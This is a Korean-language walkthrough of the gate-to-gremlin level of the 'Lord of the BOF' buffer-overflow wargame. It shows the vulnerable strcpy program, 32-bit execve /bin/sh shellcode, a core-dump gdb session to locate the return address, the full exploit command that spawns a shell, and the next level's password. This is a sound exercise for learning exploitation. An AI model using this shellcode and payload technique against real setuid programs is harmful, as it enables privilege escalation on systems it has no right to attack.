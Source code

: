 1번 gate -> gremlin
===================

```  
id = 'gate'
pw = 'gate'
```

--------------------------------------------------------------
"ls" 명령어로 파일들 확인
```   
[gate@localhost gate]$ ls  
agremlin  gremlin.c  
```  

"cat gremlin.c"로 c파일 확인  
```  
[gate@localhost gate]$ cat gremlin.c
/*
	The Lord of the BOF : The Fellowship of the BOF
	- gremlin
	- simple BOF
*/

int main(int argc, char *argv[])
{
    char buffer[256];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
[gate@localhost gate]$  
```  

인자는 무조건 2개이상 주어야 되고  
2번째 인자값을 buffer에 복사 buffer값을 출력하는 구도  

### strcpy함수의 취약점   
>(srtingcopy)strcpy함수는 strcpy(인자1, 인자2); 일때<br>
>인자1에 인자 2의 값을 복사해주는데 이떄 인자1의 크기에 상관없이<br>
>인자 2의 모든 값을 복사해서 인자1의 영역너머를 우리가 변조할 수 있게됨<br>  

### 인자 전달방법
>파일을 실행할때는 "./파일명"으로 실행  <br>
>여기에 인자를 포함해서 전달하려면 뒤에 인자로 넣을 것 을 추가<br>   
>파이썬으로 전달하려면? ex) ./gremlin `python -c 'print "A"*100'`
  

## 공략시작
우리가 쓸 쉘코드
```  
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"  
```
크기 = 25bytes

스택 프레임 구조   
>buffer(256) | SFP(4) | ret addr(4)  

260byte모두 덮고 속에다가 (nop)\x90이랑 쉘코드 25바이트를 넣고 ret add를 찾아서 마지막 4byte를 후루룩

### gremlin파일 접근
우선 gremlin파일은 
```
[gate@localhost gate]$ ls -l
total 16
-rwsr-sr-x    1 gremlin  gremlin     11987 Feb 26  2010 gremlin
-rw-rw-r--    1 gate     gate          272 Apr  7 21:42 gremlin.c
[gate@localhost gate]$ 
```
보이는 것과 같이 우리 다음레벨인 gremlin의 권한을 가지고있으므로 gdb를 쓸 수 없다.
  
    
디렉토리를 하나 만들고 그 속에다가 gremlin파일을 우리가 건드릴 수 있도록 복사를 해주자.
```
[gate@localhost gate]$ mkdir tmp
[gate@localhost gate]$ cp gremlin tmp
[gate@localhost gate]$ cd tmp 
[gate@localhost tmp]$ ls
gremlin
gate@localhost tmp]$
```
>tmp 디렉토리 생성후 cp명령어로 tmp디렉토리에 gremlin파일 복사 
  
 
  
### 페이로드
tmp파일 내에서 
./gremlin `python -c 'print "A"*260 + "\x90\x90\x90\x90"'`
을 넣어보자

```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*260  + "\x90\x90\x90\x90"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Segmentation fault (core dumped)
[gate@localhost tmp]$ ls
core  gremlin                    
```
>core 파일이 생성되었다.


### 코어 파일 
먼저 해결책부터말하면
>core dumped가 되었을땐 core파일이 생길 것 이다.  
>그럼 그 코어 파일을 gdb로 연다음  
>메모리 뜯어서 ret addr 찾고  
>그 주소로 페이로드를 다시짜서 원본파일에 공격을 하면 성공이다.

```
[gate@localhost tmp]$ gdb -c core -q
Core was generated by `./gremlin AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x90909090 in ?? ()
(gdb) 
```
  
> '-c'옵션을 꼭 주어서 gdb를 실행하자


```
(gdb)x/100x $esp
0xbffff9f0:	0xfb609090	0xbf00bfff	0xbffffa40	0x40013868
0xbffffa00:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffa10:	0x08048430	0x00000002	0xbffffa34	0x080482e0
0xbffffa20:	0x080484bc	0x4000ae60	0xbffffa2c	0x40013e90
0xbffffa30:	0x00000002	0xbffffb3e	0xbffffb48	0x00000000
0xbffffa40:	0xbffffc57	0xbffffc6a	0xbffffc81	0xbffffca0
0xbffffa50:	0xbffffcc2	0xbffffccc	0xbffffe8f	0xbffffeae
0xbffffa60:	0xbffffec8	0xbffffedd	0xbffffef9	0xbfffff04
0xbffffa70:	0xbfffff1c	0xbfffff29	0xbfffff31	0xbfffff42
0xbffffa80:	0xbfffff4c	0xbfffff5a	0xbfffff6b	0xbfffff79
0xbffffa90:	0xbfffff84	0xbfffff94	0xbfffffd4	0xbfffffe0
0xbffffaa0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffab0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffac0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffad0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffae0:	0x000001f4	0x0000000c	0x000001f4	0x0000000d
0xbffffaf0:	0x000001f4	0x0000000e	0x000001f4	0x00000010
0xbffffb00:	0x0f8bfbff	0x0000000f	0xbffffb39	0x00000000
0xbffffb10:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb20:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffb30:	0x00000000	0x00000000	0x38366900	0x2f2e0036
0xbffffb40:	0x6d657267	0x006e696c	0x41414141	0x41414141
0xbffffb50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffb70:	0x41414141	0x41414141	0x41414141	0x41414141
[gate@localhost tmp]$
```
메모리 뜯어본 결과
>argv[1]에 넣었던 AAA~ 는 bffffb 40~50에서 시작되므로  
>넉 bffffb50으로 ret addr을 맞쳐주자  
>(그 뒤로 실행되다가 쉘코드를 만나면 쉘코드가 실행될 것 이다.)  
  
```
[gate@localhost tmp]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + ""x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$
```
쉘코드 넣고 주소만 \x50\xfb\xff\xbf로 바꿔서 실행하니 bash가 잘 실행됬다.  
이제 원본파일에다가 공격을 하고 다음 level의 비밀번호를 알아내자.
```
[gate@localhost tmp]$ cd
[gate@localhost gate]$ ./gremlin `python -c 'print "A"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"  + "\x90" * 135 + "\x50\xfb\xff\xbf"'             `
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA1󿿐h//shh/bin⏓ኂ°
                                                                                                                   ̀P
bash$ my-pass
euid = 501
hello bof world
```

----
### gremlin
```
id = 'gremlin'
pw = 'hello bof world'
```

   
     
       
### 추신
나는 core파일 생성후 정확한 ret addr를 얻는 방식이 마음에 들어 앞으로의 라업도 core파일을 이용해서 쓸 것 이다.
